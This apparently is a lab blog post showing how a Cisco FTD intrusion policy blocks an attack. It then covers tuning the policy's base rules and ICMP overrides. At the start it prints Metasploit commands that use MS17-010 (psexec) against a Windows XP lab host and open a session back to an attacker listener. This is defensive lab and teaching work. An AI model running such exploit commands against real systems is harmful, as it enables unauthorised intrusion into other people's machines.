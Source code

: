 ```yaml
---
title: Cisco FTD Intrusion Policy
date: 2025-06-30 10:30:00 +0700
categories: [Security, Cisco Firepower Threat Defense (FTD)]
tags: [FTD]
---
```


Cisco FTD (Firepower Threat Defense) intrusion policy is a set of rules and configurations used to detect and prevent network intrusions by inspecting traffic for known threats and anomalies. It leverages Snort-based signatures and provides customizable protection levels, allowing administrators to balance security and performance based on their environment.

<br>

## Hacking

In this lab we will do some lightweight hacking to prove that FTD's IPS can block this attack, here we have the victim box which is a Windows XP on the inside network

![x](/static/2025-06-30-ftd-ips/00.png)

<br>

On the FTD side, right now we only have an 'Allow All' policy with no IPS/IDS enabled

![x](/static/2025-06-30-ftd-ips/01.png)

<br>

On the outside network, we have a Kali Linux that we use to penetrate the Windows XP. Here we run a Metasploit to exploit vulnerability on SMB

```
use exploit/windows/smb/ms17_010_psexec
set RHOSTS 10.71.0.23
set LHOST 172.17.1.24
exploit
```

![x](/static/2025-06-30-ftd-ips/02.png)

<br>

And we have successfully hacked the box

![x](/static/2025-06-30-ftd-ips/02a.png)

<br>

## Configuring IPS

To prevent this attack, we will configure an Intrusion Prevention Policy on FTD

![x](/static/2025-06-30-ftd-ips/03.png)

<br>

The IPS Policy works by comparing network traffic against a database of known threat patterns, called signatures. In this specific Base Policy we can see that exploits against Windows Box are already predefined and will be used once the attack happens

![x](/static/2025-06-30-ftd-ips/04.png)

<br>

On Summary, we can see this type of profile contains almost 10,000 signatures used to detect any attack or exploit

![x](/static/2025-06-30-ftd-ips/05.png)

<br>

Now we can use the Intrusion Policy inside a Policy Rule

![x](/static/2025-06-30-ftd-ips/06.png)

<br>

After IPS is set up, if we try to run the exploit again, we will get a Timeout Error

![x](/static/2025-06-30-ftd-ips/07.png)

<br>

On Connection Events, we see the attack was detected and blocked

![x](/static/2025-06-30-ftd-ips/08.png)

<br>

We can also see the deatils of the attack on the Intrusion Events

![x](/static/2025-06-30-ftd-ips/09a.png)

![x](/static/2025-06-30-ftd-ips/10.png)

<br>

## Tuning the Intrusion Policy

Before we used Balance IPS Base Policy, now lets try using the Maximum Detection

![x](/static/2025-06-30-ftd-ips/11.png)

<br>

The difference is, instead of having almost 10,000 active rules, now it has over 40,000

![x](/static/2025-06-30-ftd-ips/12.png)

<br>

This will obviously lead to more traffic getting blocked, the example being PING is now no longer allowed

![x](/static/2025-06-30-ftd-ips/13.png)

![x](/static/2025-06-30-ftd-ips/14.png)

<br>

We can tune this further by adjusting the detection as we need, here we'll override the ICMP block so PING is no longer blocked

![x](/static/2025-06-30-ftd-ips/15.png)

![x](/static/2025-06-30-ftd-ips/16.png)

<br>

And now PING is allowed again

![x](/static/2025-06-30-ftd-ips/17.png)

<br>



